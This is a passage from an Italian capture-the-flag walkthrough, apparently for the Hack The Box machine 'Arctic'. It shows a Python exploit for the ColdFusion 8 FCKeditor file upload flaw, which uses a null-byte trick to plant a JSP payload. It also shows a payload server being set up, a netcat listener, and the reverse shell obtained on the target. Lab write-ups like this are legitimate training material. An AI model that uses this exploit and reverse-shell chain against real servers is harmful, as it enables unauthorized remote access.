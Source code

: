 ```bash

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```


Dove abbiamo il payload tiriamo su un sever per poterlo scaricare dalla macchina target

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python -m http.server 80                                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Con il seguente comando carichiamo il payload sulla macchina target

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python2 arb-file-exploit.py 10.10.10.11 8500 shell.jsp 
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

Ci mettiamo in ascolto con nc 

```
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

Richiamiamo il payload al indirizzo ce ci ha fornito lo script del RCE
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp

Otteniamo cosi una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.11] 51613
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin> 
```
